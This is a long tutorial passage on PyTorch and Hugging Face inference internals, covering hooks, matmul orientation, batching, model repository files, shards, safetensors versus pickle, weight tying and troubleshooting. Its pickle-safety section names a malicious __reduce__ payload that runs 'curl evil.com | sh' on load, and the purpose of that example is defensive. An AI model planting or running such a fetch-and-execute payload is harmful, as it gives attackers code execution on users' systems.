The second row is exactly "why you always write model(x) and never model.forward(x)" — model(x) goes through nn.Module.__call__, which runs the hooks first, then calls forward. And hooks are the mount point for a pile of infrastructure:
- accelerate's
device_map/ offload: when a large model is loaded in shards, the hooks sit on every block of the ModuleList and move the weights to the right device during the forward pass — the linex = blk(x, mask)inStack.forwardabove (notblk.forward(...)) is what triggers them in a real model; - quantization observers / fake-quant (calibration captures activations through hooks);
- profilers, intermediate-activation capture, debugging probes.
On a pure-PyTorch toy like TinyNet, .forward() and model(x) give exactly the same result — so this trap normally stays hidden; once the model is loaded by HF + accelerate, or has been quantized, calling .forward() directly silently loses that machinery (typical symptoms: wrong device, quantization not taking effect, the profiler capturing nothing). The rule is simple: always model(x).
Appendix Two (skippable): that .T, column vectors, and what the "batch dimension" really is
Follow programmer intuition the whole way — a 1-D array is a row vector. This section answers three linked questions: where does the
.Tin the code come from? Why do textbooks writeW·xand treat x as a column vector? And — when the input has more than two dimensions ([B, seq, hidden]and the like), how does this correspondence hold up? Readers who just want to usex @ W.Twithout digging can skip straight to §6. (Below we keep using theW₂ = [[1,0,2,0],[0,1,0,3]]from the diagram, look only at the matrix-multiply step, and leave out the bias b — b is just an element-wise shift at the end and has nothing to do with orientation.)First, pin down a term, because the word "batch" gets used at three levels.
The batch dimension in this section means that one dimension of the tensor — the B in
[B, seq, hidden]. It has only one meaning: thisforwardcall processed B samples at once.What's easy to confuse: the same B can come from three completely different places, and the model neither knows nor cares:
Where B comes from Scenario What it's called A small slice cut from the training set Training mini-batch ("mini" relative to "the whole training set") You pass in 100 items in one call Offline batch inference Just what you passed in The server groups 32 concurrent requests into one batch Online serving batching / dynamic batching (Part 2) Three sources, the same B, the same
forwardcode. So this section talks only about "how many are in the shape", not "how they got there". In passing: at inference there's no "whole dataset" to be relative to, so the term mini-batch doesn't apply on the inference side.There's one more property to remember along with it, and it's the premise for everything that follows: the B samples in the batch dimension are independent of each other — they run through the same code and share the same weights, but exchange no information with each other; split them up and compute separately and the results are identical. That explains two things: ① why the server can freely group and split batches; ② what batching actually saves — the weights are read from VRAM once and shared by B samples. (The one exception is BatchNorm, which computes statistics across samples during training; but at inference
eval()uses fixed running statistics, so the property holds cleanly on the inference side — see §4 and Appendix One.)
(0) First lay the foundation: in PyTorch the features are always in the last dimension.
Many people (including an earlier version of this document) say "the foundation is that batch is always in dimension 0". That isn't precise enough, and it's not the real cause — nn.RNN / nn.LSTM default to [seq, batch, feature]: batch is not in dimension 0, but feature is still in the last dimension. What really fixes everything is this:
nn.Lineartakes[*, in]and returns[*, out]— features in the last dimension, as many dimensions in front as you like.
Why must it be this way? Because the rule of matmul is: treat the last two dimensions as the matrix and every dimension in front as "batch dimensions" to be broadcast away (the broadcasting section of §1 covers exactly this rule). As long as the features stay in the last dimension, adding any number of dimensions in front requires no code change. Measured:
W = np.random.randn(2, 4) # [out=2, in=4], i.e. the weight of nn.Linear(4,2)
x(4,) @ W.T -> (2,) # single sample
x(8, 4) @ W.T -> (8, 2) # [B, in]
x(8, 16, 4) @ W.T -> (8, 16, 2) # [B, seq, in] ← the normal case for a transformer
x(8, 12, 16, 4) @ W.T -> (8, 12, 16, 2) # [B, heads, seq, in] ← inside multi-head attention
One nn.Linear handles all four shapes without changing a single character of code. That's what "features in the last dimension" buys you.
The column view (the textbook W @ x) can't do this — it requires features in the second-to-last dimension, with the last dimension taken by the samples:
x(4, 1) W @ x -> (2, 1) feature dim at axis=0
x(4, 8) W @ x -> (2, 8) feature dim at axis=0
x(8, 4, 16) W @ x -> (8, 2, 16) feature dim at axis=1 ← the position moves with the number of dims
When the number of dimensions changes, the absolute position of the feature dimension changes with it. Worse: almost every element-wise operation in PyTorch — LayerNorm, softmax, adding bias, .mean() — acts on dim=-1 by default. If features aren't last, you have to hand-write dim=-2 everywhere.
So the real causal chain is:
"Features always in the last dimension" (so any number of leading dims can be broadcast away uniformly by matmul)
↓
matmul treats the last two dims as the matrix → x's last dim must match W's first dim
↓
W is stored as [out, in] (one row per neuron, see the fully connected diagram above) → it must be flipped to [in, out]
↓
x @ W.T ← the .T is forced on you, not added casually
"Batch in dimension 0" is a corollary of this chain in the 2-D case, not its cause. The textbook version — "x as a column vector, write W·x" — looks different only because it handles a single sample with no leading dimensions to accommodate. How the two line up: see (4).
(1) Follow the foundation and .T isn't mysterious at all. Given that x is a row and a batch is [batch, in], and W is [out, in], only one thing remains: dot the row vector x with each row of W.
- Matrix multiplication
A @ Brequires A's last dimension = B's first dimension (inner dimensions aligned). - Writing
x @ Wdirectly:[batch, in] @ [out, in], inner dimensionsinvsoutdon't match — illegal. - Transpose W →
W.Tis[in, out], sox @ W.T = [batch, in] @ [in, out] = [batch, out]✓.
So .T just flips "W stored by rows" over, turning rows into columns so they line up with the row vector x — it's not an accidental technical patch but a direct consequence of batch-first row storage.
(2) What's the textbook y = W·x about? — look back at the diagram and it's clear. In the diagram the inputs are stacked vertically in a column (x₀ / x₁ / x₂ arranged top to bottom) — that column is the "column vector" [in, 1] of the math books. Mathematical convention puts it to the right of W and writes:
W · x = [out, in] @ [in, 1] = [out, 1] ← the output is also a vertical column, matching the y column in the diagram
The inner dimension in lines up automatically, and "each output node collects all input nodes" in the diagram is exactly each row of W dotted with that column. Diagrams are naturally drawn vertically, so the math notation is naturally a column vector — two notations for the same thing.
But this is only a preference of layout: W · x and x @ W.T compute exactly the same thing ((3) below verifies it on the spot). PyTorch code is x @ W.T from start to finish — the column vector is notation you'll meet reading papers / textbooks, not something to remember for writing code.
(3) Why a 1-D array "has no orientation". Programmers often get muddled here: the textbook says "x is a column vector", yet you know that [2,5,1,2] in code looks more like a row vector. Who's right? — both, but they aren't talking about the same thing:
- A "column vector" in math is a convention, not a data structure. In
y = W·x, x is by convention stood up as a column — an[in,1]matrix. The math shorthand[in]means "a column vector with in components", not a 1-D array of length in in programming. - A NumPy / PyTorch 1-D array has no orientation of its own.
x.shape == (in,)is neither[in,1](column) nor[1,in](row). So the intuition "a 1-D array isn't a column vector" is correct. - "Orientation" is given temporarily by the position in
@, not carried by the array:
| Position of x | Official rule | Treated as |
|---|---|---|
Right of @ (W @ x) |
Append a 1 after the dimension → [in,1], removed after multiplying |
column |
Left of @ (x @ W.T) |
Prepend a 1 before the dimension → [1,in], removed after multiplying |
row |
The same array is a row on the left and a column on the right, and the two forms give the same result:
import numpy as np
W = np.array([[1,0,2,0],[0,1,0,3]]) # [out=2, in=4]
x = np.array([2,5,1,2]) # 1-D, shape (4,)
W @ x # array([ 4, 11]) x on the right → treated as a column (how the textbook diagram reads)
x @ W.T # array([ 4, 11]) x on the left → treated as a row (how PyTorch writes it)
# Exactly equal; vertical or horizontal, it's two layouts of the same operation
This "prepend / append a 1" rule is written down officially, in two places (if you want to check the primary source):
- NumPy
numpy.matmul, the Notes section: https://numpy.org/doc/stable/reference/generated/numpy.matmul.html - PyTorch
torch.matmul(same wording as NumPy): https://docs.pytorch.org/docs/stable/generated/torch.matmul.html
(Both pages have examples where matmul(a, b) and matmul(b, a) return the same result for the same 1-D array — official proof that "orientation is decided by position".)
(4) The key point: once there's a batch, how does the column-vector picture correspond? This is where people get stuck most, so let's say it outright — the fully connected diagram is essentially a "single-sample" diagram: the vertical column of inputs = one sample = [in,1], which is why W·x can be read straight off it. Neurons drawn vertically naturally look like a column, but that's only "how one sample's neurons are laid out"; it doesn't force you to store the data by columns.
The batch dimension isn't in the diagram at all; it's "repetition", not "structure". You don't add nodes to the diagram for batch; you run the same diagram B times. Only one thing remains: how to stack those B copies — and here there happen to be two conventions, which is the root of the confusion:
- Math / column view: one sample per column
[in,1], B of them side by side →X_col = [in, B](one sample per column). ComputeW @ X_col = [out,in] @ [in,B] = [out,B], one output per column. This is the single-sample diagram, widened directly. - PyTorch / row view: batch goes first, samples are rows →
X_row = [B, in](one sample per row). To keep W stored as[out,in]and x as a row, computeX_row @ W.T = [B,in] @ [in,out] = [B,out], one output per row.
The two are exact transposes: X_row = X_col.T; transpose both sides of the column-view equation and you get the row view — Y_col = W @ X_col → Y_col.T = X_col.T @ W.T = X_row @ W.T. The same numbers, just lying in a different direction; nothing extra is computed. Take the W above through two samples [2,5,1,2], [1,1,1,1] (still no b):
Column view (math) X_col = [[2,1], one sample per [column] [in=4, B=2]
[5,1],
[1,1],
[2,1]]
W @ X_col = [[ 4,3], one output per [column] [out=2, B=2]
[11,4]]
Row view (PyTorch) X_row = [[2,5,1,2], one sample per [row] [B=2, in=4]
[1,1,1,1]]
X_row @ W.T = [[4,11], one output per [row] [B=2, out=2]
[3, 4]]
Transposes of each other: (W @ X_col).T == X_row @ W.T ✓
Why does PyTorch choose rows rather than columns, which match the diagram better? Back to the foundation in (0): features must be in the last dimension, so that any number of leading dimensions can be broadcast away uniformly by matmul. The column view puts features in the second-to-last dimension, which means giving up that property — and real model inputs are [B, seq, hidden], [B, heads, seq, head_dim], with more than one leading dimension, so it can't be given up.
And this fills in the half-sentence (0) left unfinished: why you don't notice with a single sample and it only shows up once there's a batch dimension. For one 1-D array alone, W @ x and x @ W.T give the same result (the add-a-1 rule above) — so at the single-sample level "an array has no orientation" and the column view is good enough as intuition. But once there's a batch, the symmetry breaks: a 2-D [B,in] is explicitly "samples by row", and matmul does not transpose 2-D operands for you, so you're locked into X @ W.T. So the column view is the mental picture for "a single sample / a single neuron"; the row view is the one that scales all the way to [B, heads, seq, in].
An honest caveat: "vectors are columns by default" is the mainstream convention, not an iron law. A few fields (older computer graphics, some statistics literature) do the opposite and use row vectors + right-multiplication
x·W. So the precise statement is: mainstream linear algebra and ML math convention treat vectors as columns and left-multiply by W; PyTorch code lands onx @ W.Tin order to keep features in the last dimension. Both are self-consistent; don't take either one as the only correct one.
6. One complete forward pass: putting the above together
Below is the minimal skeleton of "hand-writing one inference"; what your inference engine does internally is essentially the industrial version of this:
model = TinyNet(4).to("cuda").eval() # 1. onto the GPU + inference mode (4 features, matching the input below)
model = model.to(torch.bfloat16) # 2. half precision to save VRAM
x = torch.randn(32, 4, device="cuda", dtype=torch.bfloat16) # 3. input with batch=32, device/dtype aligned
with torch.inference_mode(): # 4. don't build the graph
logits = model(x) # 5. forward
torch.cuda.synchronize() # 6. only needed when you actually time it
Note the batch dimension in step 3. The 32 in [32, 4] means "compute 32 samples at once", not "32 requests" — how many samples are in one forward and where those samples came from are two different things.
Why this dimension exists: a GPU is a parallel machine; one sample through one forward leaves almost all the compute idle. Put many samples into the same forward and the weights are read from VRAM once and shared by all of them, so arithmetic intensity goes straight up. This is the first lever of inference performance, and what the whole inference-engine ecosystem (vLLM's continuous batching, all kinds of batch scheduling) is built around — but those are "where the samples come from" questions, which belong to Part 2. This part only needs to nail down one thing:
Merged into one forward, the weights are read once; each running its own forward, they're fighting over the same memory bus.
7. What a model looks like on disk: the full picture of the files in a repo
When you download a model, the pile of files in the directory falls into three groups, corresponding to three different things:
Group 1: structure + weights (the model itself)
config.json— the model's "manual": the architecture class name (architectures, e.g.Qwen3ForCausalLM/BertModel), hyperparameters (hidden_size, num_layers, vocab_size), anddtype(the dtype the weights are stored / loaded in, see §3; before transformers 5 this field was calledtorch_dtype, older model directories still use that name, and both are accepted). It describes only the structure and contains no weights.model.safetensors/pytorch_model.bin— the weight data, i.e. thestate_dictfrom §5. Larger models are not a single file but shards; see "Shards" below.generation_config.json— sampling defaults:temperature,top_p,top_k,repetition_penalty,eos_token_id,pad_token_id. It's not part of "the structure", but inference engines read it by default (vLLM's--generation-config autoreads exactly this file), so if the same weights in a different directory produce a different output style or won't stop, diff this file first — especiallyeos_token_id, which is often a list; miss one entry and generation doesn't stop.
Group 2: the tokenizer (text ↔︎ tokens) — tokenizer.json, vocab.json/merges.txt, tokenizer_config.json, chat_template.jinja (from transformers 5 the chat template is split out of tokenizer_config.json into its own file), etc. (detailed in Part 2).
Group 3 (embedding models only): the sentence-transformers wrapper — modules.json, 1_Pooling/config.json (defines the pooling method; bge uses CLS), detailed in Part 2.
In one sentence: model = structure (config + code) + weights (safetensors) + tokenizer (vocab etc.), stored separately, each with its own job.
Shards: why the directory doesn't have one model.safetensors
Weights above a certain size are cut into shards; an 8B bf16 model (16 GB) is commonly cut into 4:
model-00001-of-00004.safetensors
model-00002-of-00004.safetensors
model-00003-of-00004.safetensors
model-00004-of-00004.safetensors
model.safetensors.index.json ← index: which key is in which file
How big each shard is depends on which version of transformers saved it. This default (max_shard_size in save_pretrained) keeps changing: early on 10 GB → for a long stretch 5 GB → by 5.17 it's "50GB". So on the Hub you'll see old models cut into a dozen-plus 5 GB shards next to new models that are a single block of tens of GB. The takeaway isn't to remember a number, but: don't infer model structure from the number and size of files; read index.json.
index.json has only two fields, both directly useful:
{
"metadata": { "total_size": 16382640128 }, ← total weight bytes; no need for §3's mental arithmetic, just read it
"weight_map": {
"model.embed_tokens.weight": "model-00001-of-00004.safetensors",
"model.layers.0.self_attn.q_proj.weight": "model-00001-of-00004.safetensors",
...
"lm_head.weight": "model-00004-of-00004.safetensors"
}
}
What total_size counts, checked in the huggingface_hub source that splits shards (serialization/_base.py, which sums untyped_storage().nbytes() per tensor, deduplicated by storage): it's the sum of the storage bytes of all tensors, excluding the safetensors header JSON, and weights that share storage (tied weights, see later in this section) are counted only once — so it comes out a tiny bit smaller than the shard files added up. It's entirely good enough for VRAM estimates. To check it yourself, five lines will do:
import torch, torch.nn as nn
from huggingface_hub import split_torch_state_dict_into_shards
emb, lm = nn.Embedding(1000, 64), nn.Linear(64, 1000, bias=False)
lm.weight = emb.weight # tie
sd = {"embed.weight": emb.weight.data, "lm_head.weight": lm.weight.data, "fc.weight": torch.zeros(300, 64)}
print(split_torch_state_dict_into_shards(sd, max_shard_size=100_000).metadata)
# {'total_size': 332800} = 1000×64×4 + 300×64×4 — the tie counted once; counting it twice would give 588800
weight_map is §5's "keys are attribute paths" plus one more layer, "→ which file". The loader finds files from it and opens them as needed; the split divides the volume evenly by key, unrelated to model structure, so one layer's q/k/v may straddle two files — don't treat file boundaries as layer boundaries. Both "inspect it yourself" scripts below have to be adapted to this structure: iterate over every *.safetensors in the directory, or read index.json first.
architectures: deciding which code loads the model
The architectures field in config.json is the single most critical one in the whole loading process, worth three sentences of its own.
First, it's not a description, it's an instruction. The loader (transformers' AutoModel.from_pretrained, every inference engine) reads this string and looks it up in its own registry, mapping it to "which Python class builds this model". If found, it builds the model with that code and pours in the weights; if not, it errors. So it's a routing key, not a model identifier.
Second, the naming convention is {model family}For{task}, where the suffix says which head is attached:
| Suffix | Meaning |
|---|---|
ForCausalLM |
Autoregressive language-model head, predicting token by token |
ForConditionalGeneration |
Conditional generation, usually encoder-decoder or multimodal |
ForSequenceClassification / ForTokenClassification |
Discriminative heads |
The same base shows up under several names: Qwen3ForCausalLM (text only), Qwen3VLForConditionalGeneration (vision), Qwen3ASRForConditionalGeneration (transcription) — the base is Qwen3 in every case, but a different suffix means a completely different loading path. This is exactly the file-level counterpart of §5's "backbone + which head goes on the end".
Third, why the names are so "generic": the single entry Qwen3ForCausalLM covers infinitely many sets of weights — 0.6B / 8B / 32B, plus every fine-tuned version in the world — because they share the same forward implementation. Conversely, a model gets its own entry because it needs its own modeling code. The rule is "does it need new code", not "is it a new model".
A practical conclusion: given an unfamiliar model directory, the first thing to do is
head -5 config.jsonand look atarchitectures. It decides everything — and in some cases decides it without an error (misconfigured, it still loads successfully; the output is just garbage). How people fall into these traps and how to track them down belongs to Part 2.
What's actually in the state_dict
A state_dict is a dictionary of "parameter name → tensor", holding all the learnable parameters + persistent buffers of the nn.Module — more than the intuitive weights + biases:
- the weight W and bias b of each Linear
- the embedding table (
word_embeddings/embed_tokens— the table that looks token ids up as vectors, detailed in Part 2) - LayerNorm parameters (weight γ, bias β)
- possibly a pooler dense layer, etc.
- and buffers — tensors that aren't learnable but are published with the weights. The classic case is BatchNorm's
running_mean/running_var(the "running statistics" in §4). They'rerequires_grad=False, not parameters, but they really are in the file, and missing one still makes loading fail. The mechanism, and the other three registration tiers, are at the end of Appendix One.
(Why you may never have been bitten by a buffer: the transformer family uses LayerNorm / RMSNorm, which have no buffers; this trap is mainly on the vision-model side. And RoPE's inv_freq is a persistent=False buffer — in VRAM but not in the file — so you won't see it in a dump either.)
But it has only numbers, no structure — how things connect and how forward runs come from the architecture name in config.json + the modeling code. That's why "right weights, wrong code version" fails to load: the state_dict keys don't match the structure.
.bin vs .safetensors: same content, different format
pytorch_model.bin / model.pt |
model.safetensors |
|
|---|---|---|
| What it is | torch.save() = Python pickle |
Pure tensor data + a JSON header |
| What it can hold | Any Python object — state_dict, optimizer state, epoch, config, nested dicts | Only a flat str → tensor mapping; no nesting |
| Loading | torch.load(), deserializes the whole object graph into memory |
mmap, zero-copy, single tensors can be loaded lazily |
| Listing contents | You have to load it to know what's inside | The header is the manifest (name / dtype / shape / offset); you can list it without reading the data |
| Safety | pickle can execute arbitrary code — risky | Pure data, executes no code — safe |
| Speed | Deserialize into CPU memory first, then copy to the GPU — one extra full copy in between | After mmap into the CPU address space, each tensor is copied straight to the GPU, skipping deserialization and the intermediate copy |
("mmap" maps the file into the CPU's virtual address space; the data still has to cross PCIe to reach VRAM — safetensors is faster because it skips pickle deserialization and that intermediate CPU copy, not because it bypasses the CPU.)
When a repo has both, it's for compatibility; the content is the same and the loader prefers safetensors. The whole reason the community moved from .bin to .safetensors: safety + speed.
The "what it can hold" row is the real reason the training side and the inference side part ways, worth saying on its own:
.ptis a container — a checkpoint naturally has to hold things beyond tensors: optimizer state, learning-rate schedule, epoch, the full configuration. safetensors can't hold those (it's only a flat name → tensor mapping), so the training side isn't "in the habit of using.pt"; it has no choice.- The inference side needs only tensors, so it can enjoy safetensors' three benefits: mmap means starting a server doesn't require reading several GB into CPU memory first; the readable-in-advance header lets the engine know the tensor manifest before touching the data (so it can plan sharding and tensor-parallel splits ahead of time); and no code execution — a hard requirement when a server loads public weights.
Going deeper: the problem with pickle in PyTorch
What exactly is the problem with ".bin is essentially pickle"? pickle is Python's built-in object serialization (pickle.dump/load), and torch.save / torch.load use it underneath. Two layers of problems:
- It can execute arbitrary code (a fatal security hole). The pickle format can encode "to rebuild me, call function F with arguments A" (the
__reduce__mechanism). A malicious person sets F toos.systemand A to"curl evil.com | sh", and the instant youtorch.loadthat.bin, it runs — you haven't even run the model. This is a real attack surface on model hubs that has been exploited. Iron rule: nevertorch.loada.binfrom an untrusted source. - Coupled to Python, not portable. pickle refers to Python classes by "module path"; rename a class or change a library version and deserialization may fail; and it can only be loaded in Python, read entirely into memory (no mmap, no lazy loading).
Why safetensors fixes it: it stores only pure tensor data + a JSON header (name / dtype / shape / offset), no code, no Python objects, no __reduce__ → nothing can possibly execute at load time → safe; it's also language-agnostic, mmap-able with zero copy, and fast. (Mitigation: weights_only=True in torch.load restricts deserialization to the safe subset of "tensors only, no code execution", and has been the default since PyTorch 2.6 — but writing it out explicitly is safer, and safetensors is the cleaner solution.)
A hard limit of safetensors: it can't hold "two names pointing to the same storage"
This one smashes §1's memory model into this section's file format, and it's the first trap you'll hit when you write a conversion script yourself.
§1 said: multiple Tensors can be different views on the same Storage — the core of PyTorch's memory model. Real models have a famous application of it called weight tying: many LLMs tie the output-side lm_head.weight and the input-side embed_tokens.weight into the same tensor (lm_head.weight = embed_tokens.weight), two attribute paths pointing to one storage, saving hundreds of millions of parameters. (Why they can be tied and why it makes sense is covered in Part 2; here you only need to know "some models really do this".)
But safetensors can't express it. It's a "flat str → tensor mapping"; a block of data can have only one name in the file. Measured:
emb, lm = nn.Embedding(10, 4), nn.Linear(4, 10, bias=False)
lm.weight = emb.weight # tie
sd = {"embed_tokens.weight": emb.weight.data, "lm_head.weight": lm.weight.data}
print(sd["embed_tokens.weight"].data_ptr() == sd["lm_head.weight"].data_ptr()) # True
save_file(sd, "tied.safetensors")
RuntimeError: Some tensors share memory, this will lead to duplicate memory on disk
and potential differences when loading them again:
[{'lm_head.weight', 'embed_tokens.weight'}].
A potential way to correctly save your model is to use `save_model`.
It refuses outright rather than silently copying. Two ways out, each with a cost:
.clone()and then save — it saves, but the disk size doubles and the tie is lost for good (measured with that toy: two 10×4 fp32 tensors of 160 bytes each, a 480-byte file = 320 data + 160 header). For a real model that's hundreds of millions of parameters of wasted volume.- Save one copy + rebuild from the config at load time — this is what HF does:
save_pretraineddrops the duplicate key, and at load time it readstie_word_embeddingsinconfig.jsonand callstie_weights()(one of the 78 methods in §8) to reconnect the tie.
So when you dump a tied model, you won't see a separate lm_head.weight — not because the author left it out, but because safetensors simply doesn't allow it to exist under a second name. Conversely, when you write your own .pt → .safetensors conversion and hit Some tensors share memory, this is what you've run into — don't clone blindly; first check whether the target framework rebuilds the tie at load time.
Inspect it yourself (empirical)
The safetensors header is itself a manifest:
import glob
from safetensors import safe_open
for path in sorted(glob.glob("path/to/model/*.safetensors")): # works for a single file or shards
with safe_open(path, framework="pt") as f:
for k in f.keys():
s = f.get_slice(k) # reads only the header, not the data
print(f"{k:60s} {tuple(s.get_shape())} {s.get_dtype()}")
You'll see embeddings.word_embeddings.weight (250002, 1024), ...attention.self.query.weight, ...query.bias, ...LayerNorm.weight and so on — weights, biases, the embedding table, LN parameters, all at a glance.
A more useful step: group by prefix and you get §3's VRAM arithmetic directly. It reads only headers (get_slice doesn't load data), so in a few seconds you can see "which chunk of this model is biggest":
import glob, math
from safetensors import safe_open
from collections import defaultdict
g = defaultdict(lambda: [0, 0]) # prefix → [tensor count, parameter count]
for path in glob.glob("path/to/model/*.safetensors"):
with safe_open(path, framework="pt") as f:
for k in f.keys():
n = math.prod(f.get_slice(k).get_shape()) # no data read, shapes only
g[k.split(".")[0]][0] += 1
g[k.split(".")[0]][1] += n
for p, (c, n) in sorted(g.items(), key=lambda x: -x[1][1]):
print(f"{p:20s} {c:5d} tensors {n/1e6:8.1f}M params ~{n*2/1e9:.2f} GB(bf16)")
The last column is §3's parameter count × bytes per parameter. Run it over a multimodal model and you see at a glance how much audio_encoder.* / audio_adaptor.* / llm.* each take — and you can see on the spot that the embedding table is often the single largest tensor.
An aside: what a checkpoint actually is
Several places above mention that .pt "can hold optimizer state, epoch". Together these things have a name, checkpoint, and the word is overloaded twice, which is bound to confuse you the first time, so let's split it first:
| Checkpoint in the training sense | Checkpoint in the HuggingFace sense | |
|---|---|---|
| What it means | A complete snapshot of training at a given moment | A downloadable set of pretrained weights ("the bert-base-uncased checkpoint") |
| What it holds | Weights + optimizer state + learning-rate scheduler state + current epoch/step + random-number state | Weights only |
| Why it exists | ① Training runs for days and machines die, so you must be able to resume; ② you want to keep "the best version on the validation set", not "the last version" | Identifies a model version |
What is "optimizer state"? Take Adam: it maintains two extra tensors for every parameter (the first and second moments of the gradient). So a complete training checkpoint is roughly three times the size of the bare weights. This also explains the first row of the table in the previous section — .pt can hold any Python object, while safetensors can only hold a flat "name → tensor", which simply can't hold what a checkpoint needs. The training side's use of .pt isn't a matter of habit; there's no choice.
The one sentence to remember for you (inference only):
The model weights you download are usually not a checkpoint but the weights stripped out of one. So don't assume a
.ptis a checkpoint (it may just be atorch.saved state_dict), and don't assume a checkpoint can be used for inference as is.
Training format ≠ inference format: why some weights need converting first
Everything above is about "a well-behaved HF directory". But weights you get from upstream frameworks (FunASR, assorted research code) often don't look like that at all — they're in training format. Continuing the prefix-stripping example from §5, the full comparison:
model.pt (training side) |
What vLLM / HF want (inference side) | |
|---|---|---|
| Form | A single pickle from torch.save |
A directory: config + weights + tokenizer |
| Scope | Encoder + adaptor + CTC + LLM all in one state_dict | Only the LLM part |
| Key names | llm.model.layers.0.… |
model.layers.0.… |
| Metadata | No config.json, no tokenizer |
Both are required |
Why doesn't upstream just ship HF format? Because model.pt has to be the complete thing — it must be able to continue training and be loaded by upstream's own inference path. What the inference engine wants is a copy that's "LLM only, HF layout, inference-only". One file can't satisfy both needs.
So a "training format → inference format" adapter necessarily exists: extract the submodules you need, strip the prefix, gather the config and tokenizer, save as safetensors. When you take a model from an upstream framework, you'll most likely run into such a conversion step (sometimes a function, sometimes a script, sometimes upstream has already published the converted version for you).
It's enough to remember what it is: conversion changes only the packaging, not the tensor values. The same weights, with different key names and a different file layout, become something another pipeline can consume. What traps this kind of conversion runs into (caches that don't invalidate, outputs with no provenance mark, different packagings of the same model that aren't compatible with each other) is an operations matter, belonging to Part 2.
8. transformers: the layer that lifts PyTorch into "models"
A transformers model is itself a torch.nn.Module. What AutoModel.from_pretrained(...) returns is an ordinary PyTorch model; you can .to("cuda"), .eval(), .state_dict() it exactly like §5's TinyNet — it just has dozens of transformer layers inside.
This isn't a metaphor; it's a literal inheritance relationship — three lines of code let you check it yourself:
from transformers import PreTrainedModel
import torch.nn as nn
print(issubclass(PreTrainedModel, nn.Module)) # True
for c in PreTrainedModel.__mro__: print(c.__module__ + "." + c.__name__)
transformers.modeling_utils.PreTrainedModel
torch.nn.modules.module.Module ← the relationship is in this line
transformers.modeling_utils.EmbeddingAccessMixin
transformers.modeling_utils.ModuleUtilsMixin
transformers.utils.hub.PushToHubMixin
transformers.integrations.peft.PeftAdapterMixin
Every HF model class is a subclass of PreTrainedModel, and PreTrainedModel is a subclass of nn.Module. The official philosophy doc says the same in so many words:
"Transformers is a PyTorch-first library." / "Model classes are PyTorch models (
torch.nn.Module), wrapped by at least aPreTrainedModel."
And what exactly "wrapped by" adds, you can count: PreTrainedModel has 78 more public methods than nn.Module. Pick out the relevant ones and the list is almost the source-code version of the table below — each one maps to a section of this document:
| Extra method | What it does / where in this document |
|---|---|
from_pretrained / save_pretrained / push_to_hub |
Saving and loading weights and directories (§7) |
config_class / generation_config_class |
Config-driven instantiation (§7) |
device / dtype |
Note: a bare nn.Module has neither attribute — a Module's parameters can in principle be spread across several devices, so PyTorch doesn't give you "the model's device"; these are convenience attributes added by transformers (§2) |
tie_weights / resize_token_embeddings |
Rebuilding weight ties (§7), resizing the vocabulary |
set_attn_implementation |
Choosing the attention backend (eager / sdpa / FlashAttention …) |
can_generate |
"Can this model generate autoregressively" is made into a method — in essence it checks whether an LM head is attached |
load_adapter / enable_peft_hotswap |
Attaching LoRA (§4's "fine-tuning turns autograd back on") |
dequantize |
Quantization-related (§3) |
gradient_checkpointing_enable |
Purely training-side; inference never touches it |
Then why not just use PyTorch? Because PyTorch deliberately does only "the foundation" and leaves a lot of work alone:
| What you need | Does plain PyTorch provide it? | Who provides it |
|---|---|---|
Tensors / autograd / nn.Module / CUDA |
Yes (that's what it is) | PyTorch |
| The concrete architecture definitions of Qwen3 / Llama / BERT | No (you'd have to write dozens of layers from the paper) | transformers' modeling_xxx.py |
Read config.json → instantiate → pour in safetensors |
No (only the lowest-level load_state_dict) |
from_pretrained |
| tokenizer / vocab / chat_template | Not at all (PyTorch doesn't understand text) | AutoTokenizer |
The autoregressive generate loop, sampling, KV cache |
No | transformers generate |
| Serving (continuous batching, OpenAI API) | No | transformers serve / vLLM (see below) |
So PyTorch is the engine; transformers is the layer that "assembles a pile of raw PyTorch parts into a real model that can from_pretrained, tokenize and generate". The "structure + weights + tokenizer" you learned in §7 is all supplied by transformers. That answers the first question: transformers doesn't replace PyTorch; it lifts PyTorch up to the abstraction level of "a model".
Then where is its upper boundary? The project drew it itself, and drew it cleanly (the v5 release blog):
"we don't aim to do specialized optimizations like the dedicated inference engines (vLLM, SGLang, TensorRT LLM). Instead, we aim to be perfectly inter-compatible with these."
Downward it doesn't rewrite PyTorch; upward it doesn't compete with vLLM — those are the two boundaries transformers set for itself, and they're the official version of this section's layer diagram. It positions itself as "the source of truth for model definitions" and lets downstream engines do their own optimizations.
An observation, which also says why this section is worth writing. The only place in the official docs that addresses "how transformers relates to PyTorch" head-on is those two sentences on the philosophy page; all the other material (the docs home page, the model-definition blog post, the design-philosophy piece on the single-file policy) is about transformers → the downstream ecosystem, and none is about transformers → PyTorch. The reason isn't hard to guess: HF's readers are assumed to know PyTorch already, so for them it's not a question. You're the opposite — you can deploy but don't know the framework underneath, and that's exactly where the gap is. So you have to piece this relationship together yourself, and the way to do it is the inheritance chain above.
In this document's terms: the "structure + weights + tokenizer" you learned in §7 is exactly what transformers provides for you:
- Structure: each
modeling_xxx.pyis an architecture definition written with nn.Module (§5 / §7). - Pouring in the weights:
from_pretrainedreadsarchitecturesfromconfig.json→ instantiates → pours in the safetensors (§7). - Tokenizer:
AutoTokenizerloads vocab / tokenizer_config, tokenizes, applies the chat_template (detailed in Part 2).
The layers:
Your application
↑
transformers ← 400+ model architectures + from_pretrained + AutoTokenizer + generate + Trainer
↑ (= the supplier of "structure + weights + tokenizer" in this document)
PyTorch ← the Tensor / autograd / nn.Module engine
↑
CUDA / hardware
9. Debugging / troubleshooting table
When an inference service goes wrong, 90% of it falls into these categories, with the corresponding PyTorch checks:
# ① device mismatch — the most common
# RuntimeError: Expected all tensors to be on the same device
print(t.device) # find the tensor that didn't get .to(device)
# ② dtype mismatch
# RuntimeError: expected scalar type BFloat16 but found Float
print(t.dtype) # input / weight dtypes must match
# ③ wrong shape — attention mask / position dimension wrong
print(t.shape)
# ④ OOM — CUDA out of memory
torch.cuda.memory_summary() # a detailed VRAM usage table: see who's eating it
torch.cuda.max_memory_allocated() / 1e9 # peak in GB
# ⑤ contiguous error
x = x.contiguous() # when a kernel requires contiguous memory
# ⑥ NaN/inf (usually fp16 overflow)
print(torch.isnan(t).any(), torch.isinf(t).any()) # switching to bf16 usually fixes it
# ⑦ OOM though the model is clearly small — first suspect broadcasting blew up a shape (§1)
print(a.shape, b.shape) # [N] meeting [N,1] silently becomes [N,N]; 16000 → 2 GB
# ⑧ no error anywhere, but the output is garbage — take one look in each place
# (a) does the load log say "newly initialized" / "unexpected keys"? (§5)
# → from_pretrained doesn't error by default; missing layers are filled with random values
# (b) head -5 config.json → is architectures right? (§7)
